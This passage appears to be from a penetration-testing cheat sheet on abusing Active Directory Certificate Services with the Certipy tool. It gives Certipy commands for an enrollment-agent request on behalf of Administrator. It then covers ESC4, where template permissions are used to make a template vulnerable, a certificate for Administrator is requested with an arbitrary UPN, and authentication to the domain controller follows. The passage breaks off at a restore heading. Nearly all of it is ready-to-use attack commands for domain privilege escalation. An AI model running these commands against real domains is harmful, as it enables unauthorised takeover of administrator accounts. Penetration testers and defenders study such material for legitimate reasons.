 #### Usage

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template '<TEMPLATE>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target '<CA>' -template User -on-behalf-of '<DOMAIN>\Administrator' -pfx <USERNAME>.pfx
```

```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

### ESC4: Vulnerable Certificate Template Access Control

#### Description

`ESC4` is when a user has `write privileges` over a `certificate template`. This can for instance be abused to `overwrite` the `configuration` of the `certificate template` to make the template vulnerable to `ESC1`.

By default, Certipy will overwrite the configuration to make it vulnerable to `ESC1`.

We can specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.

#### Usage

```console
$ certipy-ad template -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -template '<TEMPLATE>' -save-old
$ certipy-ad template -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -template '<TEMPLATE>'
```

The certificate template is now vulnerable to the `ESC1` technique.

Therefore, we can now request a certificate based on the `ESC4` template and specify an `arbitrary SAN` with the `-upn` or `-dns` parameter.

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -target <RHOST> -template '<TEMPLATE>' -upn 'Administrator@<DOMAIN>'
```

or

```console
$ certipy-ad req -ca '<CA>' -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -dc-ip <RHOST> -template '<TEMPLATE>' -target <RHOST> -upn 'Administrator@<DOMAIN>' -debug
```

```console
$ certipy-ad auth -pfx Administrator.pfx -dc-ip <RHOST>
```

##### Restore Configuration
